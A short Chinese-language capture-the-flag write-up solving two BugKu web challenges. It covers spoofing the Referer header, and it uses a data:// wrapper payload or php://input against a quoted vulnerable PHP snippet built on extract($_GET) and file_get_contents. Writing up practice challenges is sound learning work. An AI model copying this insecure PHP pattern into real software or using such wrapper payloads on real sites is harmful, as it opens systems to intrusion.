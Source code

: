# BugKu

---

## 你从哪里来

> 修改请求头，从referer

![image-20240729174311534](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240729174311534-1722246194003-1.png)

采用BP抓包，修改`referer`

![image-20240729174422605](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240729174422605-1722246264310-3.png)

改为：www.google.com即可

## file_get_contents

一看到这个题目，就考虑到了PHP伪协议

```php
<?php
extract($_GET);
if (!empty($ac))
{
$f = trim(file_get_contents($fn));
if ($ac === $f)
{
echo "<p>This is flag:" ." $flag</p>";
}
else
{
echo "<p>sorry!</p>";
}
}
?>
```

### 方法一：

采用`data://`

```http
?ac=bugku&fn=data://text/plain,bugku
```

### 方法二：

采用`php://input` ,然后用hackbar，或者bp发送数据`bugku`

![image-20240729200512658](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240729200512658-1722254713852-5.png)

